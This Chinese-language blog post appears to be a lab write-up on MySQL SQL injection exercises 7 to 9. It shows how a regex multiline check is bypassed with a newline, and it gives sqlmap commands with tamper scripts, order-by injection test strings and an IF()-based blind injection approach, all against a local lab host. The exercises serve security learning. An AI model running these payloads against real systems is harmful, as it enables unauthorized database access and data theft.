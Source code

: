 ```yaml
---
title: Mysql数据库-sql injection（二）
categories:
- web
tags:
- web
---
```


## 案例七：
192.168.2.131/sqli/example7.php?id=2

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-05/1.PNG)

现在有一个问题，不知道背后的mysql语句到底过滤了什么，黑盒测试的话，就不知道如何针对性地绕过。

---

#### 源代码
```
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
  die("ERROR INTEGER REQUIRED");    
}
```
知识点：preg_match()函数的模式修饰符

```
_m_ (_PCRE_MULTILINE_)

默认情况下，PCRE 认为目标字符串是由单行字符组成的(然而实际上它可能会包含多行)， "行首"元字符 (^) 仅匹配字符串的开始位置， 而"行末"元字符 ($) 仅匹配字符串末尾， 或者最后的换行符(除非设置了 _D_ 修饰符)。这个行为和 perl 相同。 当这个修饰符设置之后，“行首”和“行末”就会匹配目标字符串中任意换行符之前或之后，另外， 还分别匹配目标字符串的最开始和最末尾位置。这等同于 perl 的 /m 修饰符。如果目标字符串 中没有 "\n" 字符，或者模式中没有出现 ^ 或 $，设置这个修饰符不产生任何影响。
```
所以，有了这个\m，如果加入换行符，那么就会导致匹配（换行符之前/之后/整个字符串）。

---

好了，现在问题解决了，主要是我建立的字典不够强大。
所以之前用intruder没有发现。
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-05/2.PNG)

`sqlmap -u "http://192.168.2.131/sqli/example7.php?id=2" --dbms mysql  --tamper=space2newline.py --dbs `

## 案例八-order-by：

http://192.168.2.131/sqli/example8.php?order=name

经过检查，只有#符号无影响，其他都导致页面查询失败。

#### **知识点**
order by是排序的语句，单引号不能跟order by同时使用。

'name' ，mysql会认为是常量。

我们看一条mysql语句
```
SELECT * FROM `MyTable` WHERE `id` IN (11,1,111) ORDER BY FIELD(`id`, 11,1,111);
```
#### 尝试绕过
>apostrophemask.py 用utf8代替引号 
base64encode.py 将payload编码

`sqlmap -u "http://192.168.2.131/sqli/example8.php?order=name" --dbms mysql --tamper=base64encode.py --dbs`

`sqlmap -u "http://192.168.2.131/sqli/example8.php?order=name" --dbms mysql -technique B --level 5`

#### 解析
绕不过了，然后看下答案。

**如何确认order by注入？**

下列语句，网页显示正常
```
order=age`%20DESC%20%23 
order=age`%20%23 
order=age`%20ASC%20%23
```
加入`符号，网页显示错误。

%20ASC、%20DESC，表示升序排序、降序排序。

**如何利用order by注入**，[参考资料](http://xdxd.love/2016/03/07/order-by%E6%B3%A8%E5%85%A5%E7%82%B9%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F/)；

中关村在线order by语句的盲注思路的分享（wooyun）

[wp](http://f4l13n5n0w.github.io/blog/2015/05/22/pentesterlab-web-for-pentester-sql-injection/)

`sqlmap -u "http://192.168.2.131/sqli/example8.php?order=id%60*" --dbms mysql --dbs --batch`

--batch 当询问是否确定的时候，自动确定

%60是反引号，后接*，表示payload加在此处。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-05/6.PNG)

---

## 案例九-order-by：
`sqlmap -u "http://192.168.2.131/sqli/example9.php?order=name" --dbms mysql -technique B --level 5`

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-05/3.PNG)

#### 分析

虽然工具注入成功了，但还是分析一下。否则以后再遇到，只是碰运气，万一注入失败了，也不知道是哪里出错了。

mysql的if语句。

>if(a,b,c)
如果a表达式为true，则运行表达式b；a = false，则运行表达式c。

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-05/4.PNG)
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-05/5.PNG)

两种注入语句，返回页面不同，说明有注入。


